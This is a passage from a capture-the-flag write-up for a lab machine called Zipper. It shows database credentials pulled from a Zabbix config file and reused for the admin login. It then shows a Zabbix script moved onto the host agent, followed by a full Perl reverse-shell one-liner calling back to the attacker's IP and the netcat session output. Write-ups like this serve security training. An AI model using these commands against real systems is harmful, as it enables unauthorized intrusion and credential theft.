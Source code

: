We can find some credentials in there:
```
$ egrep "DBUser|DBPassword" zabbix_server.conf
#       For SQLite3 path to database file must be provided. DBUser and DBPassword are ignored.
### Option: DBUser
# DBUser=
DBUser=zabbix
### Option: DBPassword
DBPassword=f.YMeMd$pTbpY3-449
$
```

- Username: `zabbix`
- Password: `f.YMeMd$pTbpY3-449`

### Getting a shell on the host OS

We can log in to the Zabbix admin page with the `admin` username and `f.YMeMd$pTbpY3-449` password.

![](/assets/images/htb-writeup-zipper/zabbix_admin.png)

Under the Zabbix host, we can see that there are two hosts and one is running the Zabbix Agent.

![](/assets/images/htb-writeup-zipper/zabbix_hosts.png)

The agent is running on the host OS while the Zabbix server is running in a container so what we want to do is modify our existing script so its runs on the Zabbix Agent (therefore on the Host OS) instead of the server.

![](/assets/images/htb-writeup-zipper/zabbix_script2.png)

We can now get a shell on the Host OS but it's not stable and we lose the connection after a few seconds:
```
root@ragingunicorn:~/htb/zipper# nc -lvnp 4444
listening on [any] 4444 ...
connect to [10.10.14.23] from (UNKNOWN) [10.10.10.108] 55348
/bin/sh: 0: can't access tty; job control turned off
$ hostname
zipper
$ id
uid=107(zabbix) gid=113(zabbix) groups=113(zabbix)
$
```

After trying a few other shells, I found the perl shell works better and is more stable:
```
perl -e 'use Socket;$i="10.10.14.23";$p=4444;socket(S,PF_INET,SOCK_STREAM,getprotobyname("tcp"));if(connect(S,sockaddr_in($p,inet_aton($i)))){open(STDIN,">&S");open(STDOUT,">&S");open(STDERR,">&S");exec("/bin/sh -i");};'
```

We now have a stable shell:
```
root@ragingunicorn:~/htb/zipper# nc -lvnp 4444
listening on [any] 4444 ...
connect to [10.10.14.23] from (UNKNOWN) [10.10.10.108] 46178
/bin/sh: 0: can't access tty; job control turned off
$ w
 20:56:27 up 20 min,  0 users,  load average: 0.02, 0.03, 0.04
USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
$ id
uid=107(zabbix) gid=113(zabbix) groups=113(zabbix)
$ hostname
zipper
$ python3 -c 'import pty;pty.spawn("/bin/bash")'
zabbix@zipper:/$
```